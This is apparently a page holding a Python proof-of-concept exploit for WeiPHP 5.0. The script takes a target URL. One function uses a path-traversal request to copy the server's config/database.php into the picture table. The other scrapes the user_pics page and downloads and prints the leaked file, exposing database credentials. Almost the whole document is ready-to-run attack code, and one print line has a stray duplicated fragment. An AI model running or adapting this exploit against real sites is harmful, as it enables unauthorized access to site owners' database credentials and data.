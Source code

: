 ```python
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                \033[0m')                            \033[0m')
    print('+  \033[34mVersion: Weiphp5.0                                                \033[0m')
    print('+  \033[36m使用格式: python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    upload_url = target_url + "/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    data = {
        "1":1
    }
    try:
        response = requests.post(url=upload_url, headers=headers, data=data, timeout=20)
        if response.status_code == 200:
            print("\033[32m[o] 成功将 database.php文件 写入Pictrue表中\033[0m")
        else:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")

def POC_2(target_url):
    vnln_url = target_url + "/public/index.php/home/file/user_pics"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.get(url=vnln_url, headers=headers).text
        href = re.findall(r'<img src="(.*?)"', response)
        for i in href:
            print("\033[32m[o] 得到敏感文件url：{}\033[0m".format(i))
            data = requests.get(url=i, headers=headers)
            path = str(random.randint(1,999)) + '.php'
            with open(path, 'wb') as f:
                f.write(data.content)
                print("\033[32m[o] 成功下载文件为：{}\033[0m".format(path))
                print("\033[32m[o] 文件内容为：\n\033[0m{}".format(data.text))
    except:
            print("\033[31m[x] 获取文件名失败 \033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
    image_url = POC_2(target_url)
```

![](/img/20210924013651639905.png)